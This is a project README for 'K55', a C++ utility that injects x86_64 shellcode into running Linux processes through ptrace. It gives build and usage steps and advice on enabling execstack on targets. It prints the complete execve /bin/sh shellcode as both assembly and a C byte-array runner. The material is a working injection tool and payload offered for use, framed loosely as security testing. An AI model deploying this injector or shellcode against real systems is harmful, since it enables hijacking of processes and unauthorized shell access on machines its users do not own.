 ## K55 - Linux x86_64 Process Injection Utility (C++11)

## About K55 
(pronounced: "kay fifty-five")<br/>
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space.<br/>

## Installation
1. ``git clone https://github.com/josh0xA/K55.git``<br/>
2. ``cd K55``<br/>
3. ``chmod +x build-install.sh``<br/>
4. ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``./K55 k55_test_process``<br/>

## K55 In Action
- A shell is spawned in k55_test_process when the K55 shellcode injector is ran (as root). 
### Injecting Into Given Process
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/injector_proof.png?raw=true">
</p> 

### Shell Spawned In Target
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/target_proof1.png?raw=true">
</p>

## Limitations
Obviously, ``ptrace(PTRACE_POKETEXT...)`` are not the most disguised. So, some applications can limit the effect of K55. Although, for security testing, make sure to turn on ``execstack`` for your target applications. For example if I'm testing on gdb, before I would inject, I would run the following: ``sudo execstack -s /usr/bin/gdb``. Install execstack with from you distrobutions package manager. For Arch Linux users, you can find execstack on the AUR. 

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

#### Assembly Implementation of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
## References
http://shell-storm.org/shellcode/files/shellcode-806.php <br/>
https://0x00sec.org/t/linux-infecting-running-processes/1097 <br/>

## License 
MIT License <br/>
Copyright (c) Josh Schiavone
